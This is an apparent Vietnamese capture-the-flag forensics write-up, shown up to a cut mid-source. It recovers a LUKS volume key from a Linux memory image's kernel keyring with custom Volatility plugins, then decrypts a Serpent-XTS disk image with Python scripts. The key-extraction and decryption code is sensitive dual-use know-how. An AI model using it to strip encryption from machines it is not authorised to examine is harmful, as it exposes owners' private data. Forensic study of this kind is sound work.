# Challenge Harvesting Severed Threads



## Luồng điều tra tổng quát



## 1. Triage và chọn artefact ưu tiên



### Kiểm tra ba artefact

Challenge cung cấp ba artefact: một Linux memory snapshot, một raw disk image và một file PCAPNG. Ở thời điểm bắt đầu, file `memory.elf` được ưu tiên vì đây là trạng thái của máy khi đang hoạt động. Nếu volume mã hóa và tunnel mạng đã được mở trước khi snapshot được tạo, RAM có thể vẫn giữ khóa, cấu trúc kernel và tham số runtime cần để xử lý hai artefact còn lại.

## 2. Dựng symbol table cho Linux kernel



### Vì sao Volatility chưa chạy được

Khi chạy `linux.pslist.PsList`, Volatility nhận file đầu vào nhưng không dựng được kernel module. Hai requirement `kernel.layer_name` và `kernel.symbol_table_name` chưa được thỏa mãn, cho thấy cần một symbol table khớp chính xác với kernel của máy nguồn.



[Tài liệu Volatility về Linux symbol table được tạo từ DWARF](https://volatility3.readthedocs.io/en/revert-1566-develop/symbol-tables.html)

Dùng plugin `banners.Banners` để lấy kernel banner trực tiếp từ memory dump, thay vì đoán theo một phiên bản gần giống.
```bash
vol3 -f memory.elf banners.Banners
```



Kernel banner được khôi phục từ memory image
```text
Linux version 7.0.0-22-generic (Ubuntu, x86_64)
```

Package debug phù hợp là `linux-image-unsigned-7.0.0-22-generic-dbgsym_7.0.0-22.22_amd64.ddeb`. Giải nén package để lấy `vmlinux`, sau đó tạo ISF bằng `dwarf2json`.
```bash
dpkg-deb -x linux-image-unsigned-7.0.0-22-generic-dbgsym_7.0.0-22.22_amd64.ddeb \
  ~/tools/volatility3/kernel-debug/7.0.0-22-generic/extracted

dwarf2json linux \
  --elf ~/tools/volatility3/kernel-debug/7.0.0-22-generic/extracted/usr/lib/debug/boot/vmlinux-7.0.0-22-generic \
  > ~/tools/volatility3/symbols/linux/Ubuntu_7.0.0-22-generic.json

vol3 --clear-cache -s ~/tools/volatility3/symbols \
  -f memory.elf linux.pslist.PsList
```

## 3. Xác nhận volume mã hóa đang hoạt động



### Dấu hiệu dm-crypt và ext4 journal trong process list

Trong `pslist`, các thread `kworker/R-kcrypt`, `dmcrypt_write/2` và `jbd2/dm-0-8` cho thấy một device-mapper target mã hóa đang xử lý I/O, đồng thời một filesystem có journal đang hoạt động trên `dm-0`. Đây là bằng chứng rằng volume đã được mở khi snapshot được tạo.
Tên `dm-0` ở tầng kernel chưa cho biết mapper name hoặc mount point. Vì lọc `MountInfo` trực tiếp theo `dm-0` không cho kết quả, chuyển sang bash history để tìm manh mối đường dẫn.



### Pivot từ bash history sang mount table

```bash
sudo ./dev_mnt/pyz/exfil
```

Chuỗi `dev_mnt` được dùng làm pivot để lọc lại mount table.
```bash
vol3 -s ~/tools/volatility3/symbols -f memory.elf linux.mountinfo.MountInfo | grep -F 'dev_mnt'
```



### Xác định mapper và mount point

```text
dm-0  ->  /dev/mapper/dev_volume  ->  /home/dev5812/dev_mnt  (ext4, rw)
```

## 4. Kiểm tra disk image và chọn hướng khôi phục

Kiểm tra xem image còn LUKS metadata để mở theo quy trình thông thường hay không.
```bash
cryptsetup luksDump dev_disk.img
```



### LUKS header không còn khả dụng

Kết quả chỉ chứng minh không có LUKS header khả dụng tại vị trí mà `cryptsetup` mong đợi. Tiếp tục kiểm tra partition table và các byte đầu image.
```bash
fdisk -l dev_disk.img
```



### Image không chứa partition table

```bash
xxd -g 1 -l 64 dev_disk.img
```



### Phần đầu image đã bị ghi đè

Không có partition table, không có LUKS magic tại offset 0 và mapper vẫn đang mở trong RAM. Vì vậy, hướng hợp lý là khôi phục volume key và cấu hình runtime từ memory thay vì bruteforce passphrase.

## 5. Khôi phục volume key từ Linux kernel keyring

 tìm các description do `cryptsetup` tạo trong memory image:
```bash
LC_ALL=C grep -aobF 'cryptsetup:' memory.elf | head
```



Các offset chứa chuỗi cryptsetup trong memory image
Nhiều hit chỉ là format string hoặc package metadata, nên  đọc vùng lân cận từng offset để tìm object runtime.
```bash
for off in 16908138 27199332 805854845 1313700112 1970832665 2258742052 2279821232; do
  echo "OFFSET $off"
  dd if=memory.elf bs=1 skip=$((off-138)) count=256 status=none | strings -a
done
```



### Tìm runtime key description

```text
logon:cryptsetup:fee4d343-9d49-470d-8315-00fb0e3101a0-d0
```

Chuỗi có dạng `type:description`: key type là `logon`, còn description là `cryptsetup:<UUID>-d0`. Tùy chọn `--disable-keyring` của cryptsetup xác nhận volume key LUKS2 mặc định có thể được giữ trong kernel keyring.



[Tài liệu cryptsetup về việc lưu volume key trong kernel keyring](https://man7.org/linux/man-pages/man8/cryptsetup-luksDump.8.html)

Linux mô tả `logon` key là loại key giữ secret cho kernel; payload không thể đọc lại bằng API userspace thông thường.



[Tài liệu Linux Kernel Key Retention Service về logon key](https://docs.kernel.org/security/keys/core.html)

Mã nguồn kernel cho thấy các key được quản lý trong `key_serial_tree`; mỗi `rb_node` được nhúng trong `struct key` qua member `serial_node`. Payload của `logon` key dùng `struct user_key_payload`.



[`key_serial_tree` trong Linux source](https://elixir.bootlin.com/linux/v6.11-rc6/source/security/keys/key.c)



`user_key_payload` giữ datalen và data[]

### Xác định layout kernel và viết plugin Volatility

Offset không được hard-code theo một kernel khác. Đọc trực tiếp ISF vừa tạo để xác định symbol và layout của `struct key` cùng `struct user_key_payload`.
```python
import json
from pathlib import Path

p = Path.home() / "tools/volatility3/symbols/linux/Ubuntu_7.0.0-22-generic.json"
j = json.loads(p.read_text())

for name in ("key_serial_tree", "key_type_logon"):
    print(name, "=>", j.get("symbols", {}).get(name))
```



ISF chứa key_serial_tree và key_type_logon

```python
for name in ("key", "user_key_payload"):
    t = j["user_types"][name]
    print(f"\n=== struct {name} | size={t['size']} ===")
    for field, info in sorted(t.get("fields", {}).items(), key=lambda x: x[1]["offset"]):
        print(f"{info['offset']:4}  {field}")
```



Layout struct key và user_key_payload trong ISF
Các field quan trọng trong `struct key` nằm trong anonymous union/struct, vì vậy cần mở tiếp `unnamed_field_*` và cộng offset tương đối với offset của parent.

```python
types = j["user_types"]
fields = types["key"]["fields"]

for parent in ("unnamed_field_0", "unnamed_field_2", "unnamed_field_3"):
    base = fields[parent]["offset"]
    hidden = types[fields[parent]["type"]["name"]]
    for name, info in sorted(hidden.get("fields", {}).items(), key=lambda x: x[1]["offset"]):
        print(parent, base + info["offset"], name)
```



### Layout cần dùng cho plugin

```text
serial_node                    = struct key + 8
struct key.datalen             = +126
struct key.type                = +160
struct key.description         = +176
struct key.payload.data[0]     = +184
user_key_payload.datalen       = +16
user_key_payload.data[]        = +24
```

Plugin đầu tiên quét toàn bộ `key_serial_tree`, thay vì chỉ lọc key cryptsetup. Cách này giúp không bỏ qua các object bất thường khác trong kernel keyring.
<details>
<summary><strong>Bấm để xem plugin KeyScan và KeyExtract</strong></summary>

```python
from volatility3.framework import interfaces, renderers, exceptions
from volatility3.framework.configuration import requirements
from volatility3.framework.renderers import format_hints


def kernel_requirement():
    return [requirements.ModuleRequirement(
        name="kernel", description="Linux kernel", architectures=["Intel64"]
    )]


def iter_keys(plugin):
    kernel = plugin.context.modules[plugin.config["kernel"]]
    layer = plugin.context.layers[kernel.layer_name]
    root = kernel.object_from_symbol("key_serial_tree")
    u16 = lambda a: int.from_bytes(layer.read(a, 2), "little")
    u64 = lambda a: int.from_bytes(layer.read(a, 8), "little")

    for node in root.get_nodes():
        try:
            key = int(node) - 8
            desc_ptr = u64(key + 176)
            if not desc_ptr:
                continue
            description = (
                layer.read(desc_ptr, 160, pad=True)
                .split(b"\x00", 1)[0]
                .decode(errors="replace")
            )
            if description:
                yield layer, key, u64(key + 160), u16(key + 126), description, u64(key + 184)
        except exceptions.InvalidAddressException:
            continue


class KeyScan(interfaces.plugins.PluginInterface):
    _required_framework_version = (2, 0, 0)

    @classmethod
    def get_requirements(cls):
        return kernel_requirement()

    def _generator(self):
        for _, key, key_type, length, description, payload in iter_keys(self):
            yield 0, (
                format_hints.Hex(key), format_hints.Hex(key_type), length,
                description, format_hints.Hex(payload),
            )

    def run(self):
        return renderers.TreeGrid([
            ("Key", format_hints.Hex), ("Type", format_hints.Hex),
            ("DataLen", int), ("Description", str),
            ("Payload", format_hints.Hex),
        ], self._generator())


class KeyExtract(interfaces.plugins.PluginInterface):
    _required_framework_version = (2, 0, 0)
    TARGET = "cryptsetup:fee4d343-9d49-470d-8315-00fb0e3101a0-d0"

    @classmethod
    def get_requirements(cls):
        return kernel_requirement()

    def _generator(self):
        for layer, _, _, length, description, payload in iter_keys(self):
            if description != self.TARGET or length != 64 or not payload:
                continue
            if int.from_bytes(layer.read(payload + 16, 2), "little") != 64:
                continue
            yield 0, (layer.read(payload + 24, 64).hex(),)
            return

    def run(self):
        return renderers.TreeGrid([("VolumeKey", str)], self._generator())
```

</details>

```bash
vol3 -p ~/tools/volatility3/custom_plugins -s ~/tools/volatility3/symbols -f memory.elf keyextract.KeyScan
```



### KeyScan phát hiện key cryptsetup



### KeyScan còn phát hiện key ứng dụng

Ở thời điểm này, chưa biết `keyring:part_2@serpent` mang vai trò gì nên mục bây giờ vẫn là mở disk image, nên ưu tiên payload 64 byte của key cryptsetup.
```bash
vol3 -p ~/tools/volatility3/custom_plugins -s ~/tools/volatility3/symbols -f memory.elf keyextract.KeyExtract
```



### Trích volume key 64 byte

```text
6d092b4dcb45c0141e5306b7e8ee39ceecb8cb4b4b75f6f4e1b1f8f2d74773a0d4ce7acf39d2197edc70fb453728b1713ed52e396c50217e99299a6797d350df
```

## 6. Tái tạo cấu hình dm-crypt và giải filesystem

Volume key chưa đủ để giải image: vẫn cần cipher, payload offset và encryption-sector size. Description `keyring:part_2@serpent` cung cấp từ khóa `serpent`, nên  tìm các chuỗi liên quan trong RAM và bắt gặp một runtime string hoàn chỉnh:
```bash
LC_ALL=C strings -a -t d -n 4 memory.elf |
grep -iF 'serpent' |
```

```text
92017924:serpent-xts-plain64
```



Xác định được chuỗi lạ có đúng cấu trúc
```text
<cipher>-<mode>-<IV generator>

serpent - xts - plain64

```
chuỗi xts cũng xuất hiện nhiều mode mã hóa



Vậy cứ coi serpent - xts - plain64
làm một cipher candidate đáng thử. Tiếp theo,  xác định vị trí byte khác 00 đầu tiên trong disk image:
```python
from pathlib import Path
p = Path("dev_disk.img")
off = 0
with p.open("rb") as f:
    while chunk := f.read(1024 * 1024):
        hit = next((i for i, b in enumerate(chunk) if b), None)
        if hit is not None:
            off += hit
            break
        off += len(chunk)
print(off)
```

```text
4194304 bytes = 4 MiB = 8192 sectors of 512 bytes
```



Như vậy, 4 MiB đầu của `dev_disk.img` đã bị ghi đè bằng `00`, còn dữ liệu khác `00` bắt đầu từ offset `0x400000`. Kết quả này phù hợp với giả thuyết phần metadata ở đầu volume đã bị phá hủy, trong khi encrypted payload phía sau vẫn còn được giữ lại.
Đến đây  đã có ba dữ kiện để bắt đầu kiểm thử: 
- volume key dài 64 byte lấy từ kernel keyring; 
- cipher candidate `serpent-xts-plain64`; 
- data offset `4194304` byte, tương ứng `8192` sector 512 byte.
Vì vậy, bước tiếp theo là kiểm thử có hệ thống các tham số còn thiếu của mapping `dm-crypt`, chủ yếu gồm encryption-sector size và cách đánh số IV.

Ở thời điểm này,  đã có ba dữ kiện:

- volume key dài 64 byte được trích từ kernel keyring;
- cipher candidate `serpent-xts-plain64`;
- encrypted payload bắt đầu tại offset `0x400000`, tương ứng 8192 sector
512 byte.

Tuy nhiên, ba dữ kiện trên vẫn chưa đủ để giải volume. Nếu chọn sai encryption-sector size hoặc cách tính IV, một phần dữ liệu đầu có thể tình cờ tạo ra ext4 magic nhưng các metadata và file phía sau vẫn bị giải sai. Do kernel WSL2 đang sử dụng không có module Serpent,  không thể dùng `cryptsetup` để tạo mapping trực tiếp. Thay vào đó, sử dụng script Python sử dụng Libgcrypt để thực hiện Serpent-XTS hoàn toàn trong userspace.

Script được chia thành hai giai đoạn.

- Ở giai đoạn đầu, script lần lượt thử các sector size `512`, `1024`, `2048`
và `4096` byte. Với mỗi kích thước, nó kiểm tra hai cách đánh số IV:

  - `plain64/512`: IV tăng theo số sector 512 byte;
  - `iv-large`: IV tăng theo từng encryption-sector.

Mỗi candidate chỉ cần giải vùng 4 KiB đầu của filesystem. Từ vùng này,
script kiểm tra ext4 magic, block size và inode size để loại nhanh các cấu
hình rõ ràng không hợp lệ.

Tuy nhiên, ext4 superblock chỉ nằm gần đầu filesystem nên phép kiểm tra này
chưa đủ để kết luận. Những candidate vượt qua giai đoạn đầu sẽ được giải mã
sâu hơn.

- Ở giai đoạn thứ hai, script giải encrypted payload thành một candidate
image rồi dùng `debugfs` để đọc metadata và duyệt cây thư mục. Script không
biết trước tên thư mục hoặc file cần tìm; toàn bộ tên file đều được lấy từ
directory entry của filesystem vừa giải mã.
<details>
<summary><strong>Bấm để xem script kiểm thử sector size và IV convention</strong></summary>

```python
from __future__ import annotations

import ctypes
import struct
from pathlib import Path

IMAGE = Path("dev_disk.img")
DATA_OFFSET = 0x400000
SECTOR_SIZES = (512, 1024, 2048, 4096)

KEY = bytes.fromhex(
    "6d092b4dcb45c0141e5306b7e8ee39ce"
    "ecb8cb4b4b75f6f4e1b1f8f2d74773a0"
    "d4ce7acf39d2197edc70fb453728b171"
    "3ed52e396c50217e99299a6797d350df"
)

GCRY_CIPHER_MODE_XTS = 13
lib = ctypes.CDLL("libgcrypt.so.20")

lib.gcry_check_version(None)
lib.gcry_cipher_map_name.argtypes = [ctypes.c_char_p]
lib.gcry_cipher_map_name.restype = ctypes.c_int
lib.gcry_cipher_open.argtypes = [
    ctypes.POINTER(ctypes.c_void_p), ctypes.c_int,
    ctypes.c_int, ctypes.c_uint
]
lib.gcry_cipher_open.restype = ctypes.c_int
lib.gcry_cipher_setkey.argtypes = [
    ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t
]
lib.gcry_cipher_setkey.restype = ctypes.c_int
lib.gcry_cipher_setiv.argtypes = [
    ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t
]
lib.gcry_cipher_setiv.restype = ctypes.c_int
lib.gcry_cipher_decrypt.argtypes = [
    ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t,
    ctypes.c_void_p, ctypes.c_size_t
]
lib.gcry_cipher_decrypt.restype = ctypes.c_int
lib.gcry_cipher_close.argtypes = [ctypes.c_void_p]

SERPENT256 = lib.gcry_cipher_map_name(b"SERPENT256")

def u16(data: bytes, off: int) -> int:
    return struct.unpack_from("<H", data, off)[0]

def u32(data: bytes, off: int) -> int:
    return struct.unpack_from("<I", data, off)[0]

class Candidate:
    def __init__(self, sector_size: int, iv_step: int):
        self.sector_size = sector_size
        self.iv_step = iv_step
        self.cache: dict[int, bytes] = {}
        self.handle = ctypes.c_void_p()

        if lib.gcry_cipher_open(
            ctypes.byref(self.handle),
            SERPENT256,
            GCRY_CIPHER_MODE_XTS,
            0,
        ):
            raise RuntimeError("Không mở được Serpent-XTS")

        key_buffer = ctypes.create_string_buffer(KEY)
        if lib.gcry_cipher_setkey(self.handle, key_buffer, len(KEY)):
            raise RuntimeError("Không đặt được volume key")

        self._read_superblock()

    def close(self) -> None:
        if self.handle:
            lib.gcry_cipher_close(self.handle)
            self.handle = ctypes.c_void_p()

    def decrypt_unit(self, unit_index: int) -> bytes:
        if unit_index in self.cache:
            return self.cache[unit_index]

        with IMAGE.open("rb") as f:
            f.seek(DATA_OFFSET + unit_index * self.sector_size)
            ciphertext = f.read(self.sector_size)

        if len(ciphertext) != self.sector_size:
            raise EOFError("Thiếu ciphertext")

        iv_number = unit_index * self.iv_step
        iv = struct.pack("<Q", iv_number) + b"\x00" * 8
        iv_buffer = ctypes.create_string_buffer(iv)

        if lib.gcry_cipher_setiv(self.handle, iv_buffer, len(iv)):
            raise RuntimeError("Không đặt được IV")

        source = ctypes.create_string_buffer(ciphertext)
        output = ctypes.create_string_buffer(len(ciphertext))

        if lib.gcry_cipher_decrypt(
            self.handle,
            output,
            len(ciphertext),
            source,
            len(ciphertext),
        ):
            raise RuntimeError("Giải mã thất bại")

        self.cache[unit_index] = output.raw
        return output.raw

    def read(self, offset: int, size: int) -> bytes:
        first = offset // self.sector_size
        last = (offset + size - 1) // self.sector_size

        data = b"".join(
            self.decrypt_unit(index)
            for index in range(first, last + 1)
        )

        start = offset - first * self.sector_size
        return data[start:start + size]

    def _read_superblock(self) -> None:
        sb = self.read(1024, 1024)

        if u16(sb, 56) != 0xEF53:
            raise ValueError("Sai ext4 magic")

        self.block_size = 1024 << u32(sb, 24)
        self.inodes_per_group = u32(sb, 40)
        self.inode_size = u16(sb, 88)
        self.desc_size = u16(sb, 254) or 32

        if self.block_size not in (1024, 2048, 4096):
            raise ValueError("Block size không hợp lý")

        if not 128 <= self.inode_size <= self.block_size:
            raise ValueError("Inode size không hợp lý")

    def inode(self, inode_number: int) -> bytes:
        group = (inode_number - 1) // self.inodes_per_group
        index = (inode_number - 1) % self.inodes_per_group

        # Group descriptor table bắt đầu ở block 2 nếu block size=1024,
        # ngược lại bắt đầu ở block 1.
        gdt_block = 2 if self.block_size == 1024 else 1
        desc_offset = gdt_block * self.block_size + group * self.desc_size
        desc = self.read(desc_offset, self.desc_size)

        inode_table = u32(desc, 8)
        if self.desc_size >= 64:
            inode_table |= u32(desc, 40) << 32

        offset = (
            inode_table * self.block_size
            + index * self.inode_size
        )
        return self.read(offset, self.inode_size)

    def extents(self, inode: bytes) -> list[tuple[int, int, int]]:
        root = inode[40:100]
        magic, entries, maximum, depth = struct.unpack_from(
            "<HHHH", root, 0
        )

        if magic != 0xF30A or entries > maximum:
            raise ValueError("Extent header không hợp lệ")

        if depth != 0:
            raise ValueError("Extent tree nhiều tầng; cần parser sâu hơn")

        result = []
        for index in range(entries):
            off = 12 + index * 12
            logical = u32(root, off)
            length = u16(root, off + 4) & 0x7FFF
            physical = (u16(root, off + 6) << 32) | u32(root, off + 8)
            result.append((logical, length, physical))

        return result

    def inode_data(self, inode_number: int) -> bytes:
        inode = self.inode(inode_number)
        size = u32(inode, 4) | (u32(inode, 108) << 32)
        output = bytearray(size)

        for logical, length, physical in self.extents(inode):
            chunk = self.read(
                physical * self.block_size,
                length * self.block_size,
            )
            start = logical * self.block_size
            output[start:start + min(len(chunk), size - start)] = (
                chunk[:max(0, size - start)]
            )

        return bytes(output)

    def list_dir(self, inode_number: int) -> list[tuple[int, int, str]]:
        data = self.inode_data(inode_number)
        result = []
        pos = 0

        while pos + 8 <= len(data):
            inode = u32(data, pos)
            rec_len = u16(data, pos + 4)
            name_len = data[pos + 6]
            file_type = data[pos + 7]

            if (
                rec_len < 8
                or rec_len % 4
                or pos + rec_len > len(data)
                or name_len > rec_len - 8
            ):
                raise ValueError("Directory entry không hợp lệ")

            name = data[pos + 8:pos + 8 + name_len].decode(
                "utf-8", "replace"
            )

            if inode:
                result.append((inode, file_type, name))

            pos += rec_len

        return result

def walk(
    fs: Candidate,
    inode_number: int = 2,
    path: str = "/",
    depth: int = 0,
    seen: set[int] | None = None,
) -> list[str]:
    if seen is None:
        seen = set()

    if inode_number in seen or depth > 4:
        return []

    seen.add(inode_number)
    output = []

    for inode, file_type, name in fs.list_dir(inode_number):
        if name in (".", ".."):
            continue

        child = (
            f"/{name}" if path == "/"
            else f"{path.rstrip('/')}/{name}"
        )
        output.append(child)

        # EXT4_FT_DIR = 2
        if file_type == 2:
            output.extend(
                walk(fs, inode, child, depth + 1, seen)
            )

    return output

def modes(sector_size: int):
    # plain64 đếm IV theo sector 512 byte.
    yield "plain64/512", sector_size // 512

    # iv_large_sectors đếm theo encryption-sector.
    if sector_size > 512:
        yield "iv-large", 1

def main() -> None:
    if not IMAGE.is_file():
        raise SystemExit(f"Không tìm thấy {IMAGE}")

    if len(KEY) != 64:
        raise SystemExit("Volume key không đủ 64 byte")

    if SERPENT256 == 0:
        raise SystemExit("Libgcrypt không hỗ trợ SERPENT256")

    winners = []

    for sector_size in SECTOR_SIZES:
        for mode, iv_step in modes(sector_size):
            fs = None

            try:
                fs = Candidate(sector_size, iv_step)
                entries = walk(fs)

                if not entries:
                    raise ValueError("Không đọc được cây thư mục")

                print(
                    f"\nsector_size={sector_size} "
                    f"mode={mode}: PASS"
                )
                for entry in entries[:30]:
                    print(f"  {entry}")

                winners.append(
                    (sector_size, mode, iv_step, entries)
                )

            except Exception as error:
                print(
                    f"sector_size={sector_size} "
                    f"mode={mode}: FAIL ({error})"
                )

            finally:
                if fs is not None:
                    fs.close()

    print("\nKẾT QUẢ")

    if len(winners) != 1:
        raise SystemExit(
            f"Chưa xác định được duy nhất một candidate: {len(winners)}"
        )

    sector_size, mode, iv_step, _ = winners[0]

    print("cipher          = serpent-xts-plain64")
    print("key size        = 512 bits")
    print(f"payload offset  = {DATA_OFFSET} bytes")
    print(f"sector size     = {sector_size} bytes")
    print(f"IV convention   = {mode}")
    print(f"IV step         = {iv_step}")

if __name__ == "__main__":
    main()
```

</details>

```text
Thử sector size và IV mode
        |
        v
Giải ext4 superblock
        |
        v
Đọc group descriptor
        |
        v
Tìm inode table
        |
        v
Đọc root inode
        |
        v
Đọc directory entries
        |
        v
Tự in các đường dẫn tìm thấy
```



### Kiểm chứng candidate bằng filesystem metadata

Kết quả cho thấy các cấu hình dùng encryption-sector size `512` và
`1024` byte đều bị loại ngay vì không tạo được ext4 magic hợp lệ.

Một số candidate dùng sector size lớn hơn có thể vượt qua bước kiểm tra
superblock ban đầu, nhưng thất bại khi script tiếp tục đọc inode, extent
và directory entry. Cụ thể, candidate `4096/plain64` tạo ra directory
entry không hợp lệ, còn các trường hợp dùng `iv-large` không thể diễn giải
nhất quán các địa chỉ và kích thước trong metadata filesystem.

Chỉ cấu hình `sector_size=2048` với `plain64` đánh số IV theo sector
512 byte cho phép script đi xuyên suốt từ ext4 superblock tới root inode
và duyệt được một cây thư mục:

```text
/pyz
/pyz/exfil
/secure_cb
/secure_cb/serpent_source.zip
/secure_cb/Cargo.lock
/secure_cb/Cargo.toml
/secure_cb/serpent.db
/secure_cb/src
/secure_cb/src/main.rs
```

Do đó, candidate duy nhất phù hợp là:
```text

cipher            = serpent-xts-plain64
key size          = 512 bits
payload offset    = 4194304 bytes
encryption unit   = 2048 bytes
IV convention     = plain64/512
plain64 IV step   = 4

```

Giá trị `IV step = 4` xuất phát từ việc mỗi encryption unit 2048 byte
tương ứng với bốn sector 512 byte:
2048 / 512 = 4
Sau khi có được cấu hình `dm-crypt` chính xác,  sử dụng Libgcrypt và
một script Python để giải toàn bộ encrypted payload thành một image
plaintext mới.
<details>
<summary><strong>Bấm để xem script giải toàn bộ dev_disk.img bằng Serpent-XTS</strong></summary>

```python
#!/usr/bin/env python3
import ctypes
import struct
from pathlib import Path

SOURCE = Path("dev_disk.img")
OUTPUT = Path("dev_decrypted.img")
DATA_OFFSET = 0x400000
SECTOR_SIZE = 2048
IV_STEP = 4
KEY = bytes.fromhex(
    "6d092b4dcb45c0141e5306b7e8ee39ce"
    "ecb8cb4b4b75f6f4e1b1f8f2d74773a0"
    "d4ce7acf39d2197edc70fb453728b171"
    "3ed52e396c50217e99299a6797d350df"
)

MODE_XTS = 13
lib = ctypes.CDLL("libgcrypt.so.20")
lib.gcry_check_version(None)
lib.gcry_cipher_map_name.argtypes = [ctypes.c_char_p]
lib.gcry_cipher_map_name.restype = ctypes.c_int
lib.gcry_cipher_open.argtypes = [
    ctypes.POINTER(ctypes.c_void_p),
    ctypes.c_int,
    ctypes.c_int,
    ctypes.c_uint,
]
lib.gcry_cipher_open.restype = ctypes.c_int
lib.gcry_cipher_setkey.argtypes = [
    ctypes.c_void_p,
    ctypes.c_void_p,
    ctypes.c_size_t,
]
lib.gcry_cipher_setkey.restype = ctypes.c_int
lib.gcry_cipher_setiv.argtypes = [
    ctypes.c_void_p,
    ctypes.c_void_p,
    ctypes.c_size_t,
]
lib.gcry_cipher_setiv.restype = ctypes.c_int
lib.gcry_cipher_decrypt.argtypes = [
    ctypes.c_void_p,
    ctypes.c_void_p,
    ctypes.c_size_t,
    ctypes.c_void_p,
    ctypes.c_size_t,
]
lib.gcry_cipher_decrypt.restype = ctypes.c_int
lib.gcry_cipher_close.argtypes = [ctypes.c_void_p]

SERPENT256 = lib.gcry_cipher_map_name(b"SERPENT256")


def main():
    if not SOURCE.is_file():
        raise SystemExit(f"Không tìm thấy {SOURCE}")
    if SERPENT256 == 0:
        raise SystemExit("Libgcrypt không hỗ trợ SERPENT256")

    payload_size = SOURCE.stat().st_size - DATA_OFFSET
    if payload_size <= 0 or payload_size % SECTOR_SIZE:
        raise SystemExit("Payload không chia hết cho sector size 2048")

    unit_count = payload_size // SECTOR_SIZE
    handle = ctypes.c_void_p()

    if lib.gcry_cipher_open(
        ctypes.byref(handle), SERPENT256, MODE_XTS, 0
    ):
        raise SystemExit("Không mở được Serpent-XTS")

    try:
        key_buffer = ctypes.create_string_buffer(KEY)
        if lib.gcry_cipher_setkey(handle, key_buffer, len(KEY)):
            raise SystemExit("Không đặt được volume key")

        with SOURCE.open("rb") as source, OUTPUT.open("wb") as output:
            source.seek(DATA_OFFSET)

            for unit_index in range(unit_count):
                ciphertext = source.read(SECTOR_SIZE)
                iv = struct.pack("<Q", unit_index * IV_STEP) + b"\x00" * 8

                iv_buffer = ctypes.create_string_buffer(iv)
                src_buffer = ctypes.create_string_buffer(ciphertext)
                dst_buffer = ctypes.create_string_buffer(SECTOR_SIZE)

                if lib.gcry_cipher_setiv(handle, iv_buffer, len(iv)):
                    raise SystemExit(f"Không đặt được IV tại unit {unit_index}")

                if lib.gcry_cipher_decrypt(
                    handle,
                    dst_buffer,
                    SECTOR_SIZE,
                    src_buffer,
                    SECTOR_SIZE,
                ):
                    raise SystemExit(f"Giải mã lỗi tại unit {unit_index}")

                output.write(dst_buffer.raw)

                if unit_index and unit_index % 50000 == 0:
                    print(f"{unit_index * 100 / unit_count:.1f}%")
    finally:
        lib.gcry_cipher_close(handle)

    print(f"Đã tạo {OUTPUT} ({OUTPUT.stat().st_size} bytes)")


if __name__ == "__main__":
    main()
```

</details>

Script này bỏ qua 4 MiB metadata đã bị ghi đè ở đầu `dev_disk.img`, sau đó đọc ciphertext theo từng encryption unit 2048 byte. Với mỗi unit, script sử dụng volume key 64 byte và Serpent-XTS để giải mã. Do `plain64` đánh số IV theo sector 512 byte, IV của các unit lần lượt là: 0, 4, 8, 12, ...



Kết quả của lệnh `file` nhận diện `dev_decrypted.img` là một filesystem `ext4` hợp lệ: Linux rev 1.0 ext4 filesystem data UUID = 80b415ab-7282-47b9-a63f-9701575b2ff0
Tiếp theo,  mount image đã giải mã ở chế độ chỉ đọc để tránh làm thay
đổi metadata của filesystem.
```bash
sudo mkdir -p recovered
sudo mount -o ro,noload,loop dev_decrypted.img recovered
blkid dev_decrypted.img
find recovered -maxdepth 3 -printf '%y %p\n' | sort
```

```text
UUID="80b415ab-7282-47b9-a63f-9701575b2ff0"  TYPE="ext4"

recovered/pyz/exfil
recovered/secure_cb/serpent_source.zip
recovered/secure_cb/serpent_db
recovered/secure_cb/src/main.rs
```



## 7. Phân tích ứng dụng `serpent_db` và khóa gắn với boot ID

### Đọc source chính `main.rs`

<details>
<summary><strong>Bấm để xem toàn bộ source `secure_cb/src/main.rs`</strong></summary>

```rust
use anyhow::{Context, Result};
use argon2::{Argon2, Params};
use base64::{Engine as _, engine::general_purpose};
use chacha20poly1305::{
    ChaCha20Poly1305, Nonce,
    aead::{Aead, KeyInit},
};
use clap::{Parser, Subcommand};
use rusqlite::Connection;
use std::fs;
use std::path::Path;
use zeroize::{Zeroize, Zeroizing};

const DB_PATH: &str = "/tmp/serpent.db";
const BOOT_ID_PATH: &str = "/proc/sys/kernel/random/boot_id";
const SALT: &[u8] = b"serpent_secure_salt_2026"; // Fixed salt for deterministic boot-bound key

#[derive(Parser)]
#[command(name = "serpent")]
#[command(about = "A secure boot-bound SQLite CRUD CLI", long_about = None)]
struct Cli {
    #[command(subcommand)]
    command: Commands,
}

#[derive(Subcommand)]
enum Commands {
    /// Initialize the database (scraps existing)
    Init,
    /// Create a new record
    Create { name: String, value: String },
    /// Read a record by name
    Read { name: String },
    /// Update an existing record
    Update { name: String, value: String },
    /// Delete a record by name
    Delete { name: String },
    /// List all records
    List,
    /// CRUD operations in the kernel user keyring
    Keyring {
        #[command(subcommand)]
        action: KeyringAction,
    },
}

#[derive(Subcommand)]
enum KeyringAction {
    /// Set a key in the keyring (encrypted with ChaCha20Poly1305)
    Set { name: String, value: String },
    /// Get a key from the keyring (decrypted with ChaCha20Poly1305)
    Get { name: String },
    /// Delete a key from the keyring
    Delete { name: String },
}

struct SecureKey(Zeroizing<[u8; 32]>);

fn get_boot_id() -> Result<String> {
    fs::read_to_string(BOOT_ID_PATH)
        .context("Failed to read boot_id. This tool requires a Linux system with /proc/sys/kernel/random/boot_id")
        .map(|s| s.trim().to_string())
}

fn derive_key(boot_id: &str) -> Result<SecureKey> {
    // High cost parameters for Argon2id: 256MB memory, 4 iterations
    let params = Params::new(262144, 4, 4, Some(32))
        .map_err(|e| anyhow::anyhow!("Invalid Argon2 params: {}", e))?;

    let argon2 = Argon2::new(argon2::Algorithm::Argon2id, argon2::Version::V0x13, params);

    let mut key_bytes = [0u8; 32];
    argon2
        .hash_password_into(boot_id.as_bytes(), SALT, &mut key_bytes)
        .map_err(|e| anyhow::anyhow!("KDF failed: {}", e))?;

    Ok(SecureKey(Zeroizing::new(key_bytes)))
}

fn get_connection(key: &SecureKey) -> Result<Connection> {
    let conn = Connection::open(DB_PATH)?;

    // SQLCipher keying
    let key_hex = hex::encode(&*key.0);
    let key_value = format!("x'{}'", key_hex);

    conn.pragma_update(None, "key", &key_value)
        .context("Failed to set encryption key via pragma")?;

    // Verify the key by trying a simple operation
    conn.query_row("SELECT count(*) FROM sqlite_master", [], |_| Ok(()))
